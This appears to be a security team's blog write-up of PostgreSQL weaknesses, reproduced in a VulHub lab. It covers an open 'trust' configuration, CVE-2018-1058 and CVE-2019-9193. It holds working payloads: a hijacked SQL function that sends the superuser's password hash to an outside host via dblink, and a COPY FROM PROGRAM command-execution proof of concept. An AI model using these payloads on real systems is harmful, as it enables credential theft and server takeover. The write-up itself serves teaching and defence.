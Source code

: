 ```yaml
---
title: PostgreSQL: From no authorization to high privilege command execution
description: Cause of PostgreSQL Improper Configuration Vulnerability: As a matter of fact, it is mainly caused by improper administrator configuration.
categories:
 - RedTeam Skill
tags:
 - PostgreSQL
 - Command execution
---
```



## *No. 1 Introduction to PostgreSQL*

PostgreSQL (also known as postgres) is a free object, it's a relational database server (database management system) distributed under a flexible BSD license. It provides an alternative to other open source database systems, such as MySQL and Firebird, and proprietary systems, such as **Oracle, Sybase, IBM’s DB2**, and **Microsoft SQL Server**.

PostgreSQL is as popular as MySQL, and the database of msf is PostgreSQL. However, if the administrator does not configure PostgreSQL correctly, **it will cause any user to access PostgreSQL database without a password.**

## *No.2 PostgreSQL Unauthorized Vulnerability*

#### Vulnerability Cause

Cause of PostgreSQL Improper Configuration Vulnerability: As a matter of fact, it is mainly caused by improper administrator configuration. PostgreSQL configuration file is `/var/lib/pgsql/9. 2/data/pg_hba. conf`. If the administrator does not properly configure the trusted host (as shown in the following figure), any user can access PostgreSQL database without password.

Here is a brief introduction to the following `pg_hba. conf` configuration file. Excluding the comments, the main effective configuration content is the red circle in the above figure. Explain the meaning of this line:

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/ko4Bn25tjQdahWz.png)

```plsql
host    all     all     0.0.0.0/0       trust
```

Host indicates the matching type, the first `all` indicates any database, the second `all` indicates the access of any database user, `0.0. 0.0/0` indicates that any IP address accesses this database service, and the last `trust` indicates password-free login for hosts that meet the conditions.

**The above configuration will result in allowing any source IP host, using any database account, and accessing any database without password, which will directly lead to the disclosure of all data in the database.**

## *No.3 PostgreSQL Authorization Vulnerability*

#### （CVE-2018-1058）

Build a vulnerability platform through VulHub and log in to the data platform to obtain the current session user.

Postgres provides the ability to customize functions! We create the following function:

```plsql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=192.168.8.10 port=7777 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/ph7YvVmWn4AEcsd.png)

Then listen to `1**.***.*.**`port 7777 on , waiting for the superuser to trigger the “backdoor” we left behind.

Execute the `pg_dump` command as root:

```plsql
docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub
```

Export the contents of the VulHub database.

While executing the above command, the “backdoor” has been triggered, and the password encrypted by the administrator MD5 has been received on the `1**.***.*.**` machine:

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/7HgsyiMfbtWDwGF.png)

#### Vulnerability fixes

The following version fixes this breakthrough:

```plsql
PostgreSQL PostgreSQL 9.6.8
PostgreSQL PostgreSQL 9.5.12
PostgreSQL PostgreSQL 9.4.17
PostgreSQL PostgreSQL 9.3.22
```

## *No.4 PostgreSQL High Privilege Command Execution Vulnerability*

#### (CVE-2019-9193）

#### Affected Version

PostgreSQL 9.3 to 11.2

In versions 9.3 through 11, there is a “feature” that can be used by administrators or users with “COPY TO/FROM PROGRAM” privileges to execute arbitrary commands.

First connect to postgres and execute POC:

```plsql
DROP TABLE IF EXISTS cmd_exec;

CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'id';

SELECT * FROM cmd_exec;
```

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/GiU5qRpJwtW9ATC.png)

## *No.5 Solution Suggestions*

The roles of `pg_read_server_files, pg_write_server_files, and pg_execute_server_program` involve reading and writing database server files, and have relatively large permissions. Careful consideration should be given when assigning the permissions of this role to database users.

## *No.6 Copyright Notice*

Any direct or indirect consequences and losses caused by the dissemination and utilization of the information provided in this article shall be borne by the user himself, and Bounty Team and the author of this article shall not bear any responsibility for this. Bounty Team has the right to modify and interpret this article. If you want to reprint or disseminate this article, you must ensure the integrity of this article, including all contents such as copyright notice. Without permission from Bounty Team, the content of this article shall not be arbitrarily modified, increased or decreased, and it shall not be used for commercial purposes in any way.

## *No.7 Author*

> york@Bounty Team - DBAPPSecurity
